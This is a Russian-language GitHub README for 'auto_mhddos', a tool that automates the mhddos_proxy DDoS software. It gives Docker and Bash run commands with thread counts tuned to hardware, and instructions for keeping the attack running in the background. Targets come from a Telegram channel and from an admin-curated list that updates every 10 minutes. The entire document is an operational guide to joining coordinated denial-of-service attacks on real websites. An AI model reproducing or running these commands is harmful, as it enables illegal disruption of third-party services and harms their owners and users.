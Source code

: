 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)

### Представляем auto_mhddos - автоматизирующий скрипт [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

1. [Docker](https://github.com/Aruiem234/auto_mhddos#-docker)
2. [Bash(Linux-терминал)](https://github.com/Aruiem234/auto_mhddos#-bash)
3. [Kubernetes](https://github.com/Aruiem234/auto_mhddos/tree/main/helm-charts#mhddos-auto-helm-charts)
### Цели выбираются и анонсируются в канале Украинский Жнец - https://t.me/+-GoGtA_IsOk3YmE6 чат - https://t.me/+sNy3N3b11_9mMDA6
##### ❗️❗️❗️❗️ ЛУЧШЕ ЗАПУСКАТЬ НЕСКОЛЬКО ОКОН ПО 1К ПОТОКОВ, ЧЕМ 1 РАЗ С БОЛЬШОЙ НАГРУЗКОЙ
## 🪖 Docker

Установить [Docker](https://docs.docker.com/get-docker/) и запустить команду:  
  

```shell
docker run -it --rm --pull always ghcr.io/theorlovsky/auto_mhddos:experimental

```
(кол-во потоков по умолчанию = 1000):


### Команды docker для разного железа: 

-- Слабое (2 ядра + 2-4 ГБ Озу).


```shell
docker run -it --rm --pull always ghcr.io/theorlovsky/auto_mhddos:experimental --parallel 1 -t 500
```
  
-- Среднее (4 ядра + 4-8 Гб Озу) .Эти же параметры использутся по умолчанию, если запускать команду без аргументов.:   
  

```shell
docker run -it --rm --pull always ghcr.io/theorlovsky/auto_mhddos:experimental --parallel 2 -t 1000
```
  
-- Быстрое(4+ ядер + 8+ Гб Озу):  

  
```shell
docker run -it --rm --pull always ghcr.io/theorlovsky/auto_mhddos:experimental --parallel 2 -t 2000
```  
Разъяснение:
  
`--parallel 2` - запускается 2 копии mhddos_proxy.  

  
`-t 1000` - количество потоков (threads) = 1000. Параметр -t в mhddos_proxy.  
  

Пример успешной атаки без третьего параметра --debug(больше ничего выводится не будет):  
![Стандартный вывод](https://user-images.githubusercontent.com/74729549/159160084-3ffd870b-7d17-44c9-9108-3908212402ce.png)  


ТАКЖЕ МОЖНО ДОБАВИТЬ В КОНЕЦ ТРЕТИЙ ПАРАМЕТР --debug , чтоб выводилась информация о каждом отправленном пакете,  
например:  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug  
```
пример вывода с параметром --debug:  
![Параметр --debug](https://user-images.githubusercontent.com/74729549/159160027-dcc51f91-3d0b-4dd7-abe8-b63edf136e1e.png)  
  
  
  
## 🪖 Bash(Linux-терминал)  


### 1. Установка.  
  
Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.  


```shell
sudo su
apt install git -y
cd ~  
git clone https://github.com/Aruiem234/auto_mhddos.git  
cd ~/auto_mhddos  
bash setup.sh  

```
!!!Ждем пока выполнится!!!  


Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### 2. Запуск.

Bash скрипт работает в Linux и WSL (Windows Subsystem for Linux). Работает автоматически, даже при закрытии терминала (если вы четко придерживаетесь инструкций)  

Не забудьте сначала выполнить пункт №1 (Установка).  


```shell
sudo su
cd ~/auto_mhddos
screen -S "runner" bash runner.sh 1000 200
```
Пример успешной атаки без третьего параметра --debug(больше ничего выводится не будет):  
![Стандартный вывод](https://user-images.githubusercontent.com/74729549/159160084-3ffd870b-7d17-44c9-9108-3908212402ce.png)  
  
  
ТАКЖЕ МОЖНО ДОБАВИТЬ В КОНЕЦ ТРЕТИЙ ПАРАМЕТР --debug , чтоб выводилась информация о каждом отправленном пакете,
например:  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug  
```
пример вывода с параметром --debug:  
![Параметр --debug](https://user-images.githubusercontent.com/74729549/159160027-dcc51f91-3d0b-4dd7-abe8-b63edf136e1e.png)  

Для разных машин вместо параметров "1000 200" выбирайте следующее:  
-- Слабое (2 ядра + 2-4 ГБ Озу) - 500 100  
-- Среднее (4 ядра + 4-8 Гб Озу) - 1000 200  
-- Быстрое(4+ ядер + 8+ Гб Озу) - 2500 400  

Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  
Если все успешно, то будет сообщение [detached from runner]  
  
Чтоб посмотреть, что там работает в фоне:  
```shell
sudo screen -ls
```
  
Чтоб перейти к процессу и узнать как у него дела (что он выводит)
щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишите:
```shell
screen -r runner
```
После этого, если захотите убить процес - нажимайте Ctrl+C  
Чтоб убить все его подпроцесы:  
```shell
sudo pkill -f runner.py
sudo pkill -f ./start.py
```
  
чтоб опять отключиться, и оставить его работать в фоне:  
Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  


# ❕Описание

* Скрипт работает полностью автоматически - ВЫ МОЖЕТЕ ЗАКРЫВАТЬ ОКНО ТЕРМИНАЛА(кроме докера на Windows), но не выключать саму машину (а сервер и так работает 24/7)

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 10 мин.




Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.



### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
